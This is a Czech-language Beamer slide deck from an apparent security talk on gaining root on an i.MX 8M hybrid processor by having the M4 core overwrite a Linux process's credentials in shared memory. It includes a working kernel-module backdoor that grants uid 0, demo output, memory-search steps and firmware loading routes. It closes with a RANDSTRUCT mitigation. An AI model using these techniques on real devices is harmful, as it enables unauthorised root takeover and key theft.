\documentclass{beamer}
 
\usepackage[utf8]{inputenc}
\usepackage{minted}

 
 
%Information to be included in the title page:
\title{Jak ukrást roota na hybridním procesoru}
\author{Daniel Trnka}
\institute{}
\date{2019}
 
 
 
\begin{document}
 
\frame{\titlepage}
 
\begin{frame}
\frametitle{Jádra procesoru i.MX~8M}
\centering

\includegraphics{figures/cores.pdf}

\end{frame}

\begin{frame}
\frametitle{Paměťová mapa a kde umístit kód M4 jádra?}
\centering

\includegraphics[width=\linewidth]{figures/memory.pdf}
\end{frame}

\begin{frame}
\frametitle{Cíl}
\begin{itemize}
	\item spustit proces pod normálním uživatelem
	\item najít proces z M4
	\item změnit uid v procesu z M4
	\item získat root konzolu v procesu
\end{itemize}
\flushright

\includegraphics[width=8cm]{figures/goal.pdf}
\end{frame}

\begin{frame}[fragile]
\frametitle{(obří) struktura každého procesu}
\begin{figure}
\begin{minted}{c}
struct task_struct {
  ...
  const struct cred __rcu *real_cred;
  const struct cred __rcu *cred;
  char comm[TASK_COMM_LEN];
  ...
};
\end{minted}
\vspace{1cm}
\begin{minted}{bash}
(gdb) p sizeof(struct task_struct)
$1 = 6720
\end{minted}
\end{figure}
\end{frame}

\begin{frame}[fragile]
\frametitle{struct cred}
\begin{figure}
\begin{minted}{c}
struct cred {
  ...
  kuid_t uid;   /* real UID of the task */
  kgid_t gid;   /* real GID of the task */
  kuid_t suid;  /* saved UID of the task */
  kgid_t sgid;  /* saved GID of the task */
  kuid_t euid;  /* effective UID of the task */
  kgid_t egid;  /* effective GID of the task */
  kuid_t fsuid; /* UID for VFS ops */
  kgid_t fsgid; /* GID for VFS ops */
  ...
};
\end{minted}
\end{figure}
\end{frame}


\begin{frame}[fragile]
\frametitle{Prvně v jaderném modulu...}
\begin{figure}
\begin{minted}{c}
#include <linux/module.h>

static int su(char *val, const struct kernel_param *kp) {
	struct cred* new_cred = prepare_creds();
	kuid_t v = {0};
	new_cred->uid = v;
	new_cred->euid = v;
	new_cred->fsuid = v;
	return commit_creds(new_cred);
}
static struct kernel_param_ops ops = {
	.get = &su, // read()
};
// /sys/module/test/parameters/su
module_param_cb(su, &ops, NULL, 0664);
MODULE_LICENSE("GPL v2");
\end{minted}
\end{figure}
\end{frame}


\begin{frame}[fragile]
\frametitle{Funguje!}
\begin{figure}
\begin{minted}{bash}
root# insmod ./test.ko

daniel$ id
uid=1000(daniel) gid=1000(daniel) groups=1000(daniel)
daniel$ cat /sys/module/test/parameters/su
daniel$ id
uid=1000(daniel) gid=1000(daniel) groups=1000(daniel)
daniel$ read < /sys/module/test/parameters/su
root# id
uid=0(root) gid=1000(daniel) groups=1000(daniel)
root# ip addr add fd64::1/128 dev eth0
root# ip addr show dev eth0 | grep fd
inet6 fd64::1/128 scope global
\end{minted}
\end{figure}
\end{frame}

\begin{frame}[fragile]
\frametitle{Můžeme zjednodušit...}
\begin{figure}
	\begin{minted}{c}
#include <linux/module.h>

static int su(char *val, const struct kernel_param *kp) {
	kuid_t v = {0};
	((struct cred*) current->cred)->uid = v; 
	return 0;
}

static struct kernel_param_ops ops = {
	.get = &su,
};
module_param_cb(su, &ops, NULL, 0664);
MODULE_LICENSE("GPL v2");

	\end{minted}
\end{figure}
\end{frame}

\begin{frame}[fragile]
\frametitle{Nalezení procesu z M4 jádra}
\begin{enumerate}
	\item naivně najít řetězec s názvem procesu \texttt{hijack}
	\item před začátkem jsou dva validní 64bit ukazatele cred
	\begin{itemize}
		\item zarovnány na násobek 4 \\ \mintinline{c++}{addr & 0b11 == 0}
		\item do virtuální paměti \\ 
		nejvyšší bity jsou 1
	\end{itemize}
	\item dereference ukazatelů
		\begin{itemize}
		\item převod z virtuální na fyzickou adresu
		 \mintinline{c++}{phys = (virt & ~page_offset) + kernel_start}
	\end{itemize}
	\item hodnota uid == 1000
\end{enumerate}
\begin{figure}
	\begin{verbatim}
cred: 40 F5 9B 36 00 80 FF FF  40 F5 9B 36 00 80 FF FF
comm: 68 69 6A 61 63 6B 00 00  30 00 00 00 00 00 00 00
       h  i  j  a  c  k  .  .   0  .  .  .  .  .  .  .
	\end{verbatim}
\end{figure}
\end{frame}

\begin{frame}
\frametitle{Změna uid}

\includegraphics[width=\linewidth]{figures/hexdump.pdf}
\end{frame}

\begin{frame}
\frametitle{Nesdílená DDR paměť}
\begin{enumerate}
	\item paměť nastavena jako nesdílená
	\item změna se neprojeví a může být zahozena
	\item v cyklu nastavovat uid pro ``prostřelení'' skrze cache
\end{enumerate}
\end{frame}

\begin{frame}
\frametitle{Obnova zapomenutého root hesla}
\includegraphics[width=\linewidth]{figures/demo.jpg}
\end{frame}




\begin{frame}
\frametitle{Jak to dostat do systému?}
\begin{itemize}
	\item paměti jsou volatilní
	\item oficiálně jen ze zavaděče Das U-Boot
		\begin{itemize}
			\item přístup na UART1 konzolu
			\item modifikace proměnných v boot sektoru
		\end{itemize}
	\item neoficiálně pomocí \texttt{/dev/mem}
	\item 2x neoficiálně s remoteproc
		\begin{itemize}
			\item /lib/firmware/rproc-imx-rproc-fw
		\end{itemize}
	\item připojení do M4 knihoven
\end{itemize}
\end{frame}

\begin{frame}
\frametitle{Další možnosti}
\begin{itemize}
	\item krádež privátních klíčů z paměti
	\item modifikace filesystém bufferů
	\item podvrhnutí DNS odpovědí?
\end{itemize}
\end{frame}

\begin{frame}[fragile]
\frametitle{Ochrana v novějším jádře?}
\begin{itemize}
	\item prohozeni položek ve struktuře
	\item seed musí být součástí distribuce pro out-of-tree moduly
	\item \texttt{GCC\_PLUGIN\_RANDSTRUCT=y}
	\item Archlinux, Debian zatím nepoužívá
\end{itemize}
\begin{figure}
\begin{minted}{c}
struct task_struct {
  
  randomized_struct_fields_start
  ...
  const struct cred __rcu *real_cred;
  const struct cred __rcu *cred;
  char comm[TASK_COMM_LEN];
  ...
  randomized_struct_fields_end
};
\end{minted}
\end{figure}


\end{frame}



 
\end{document}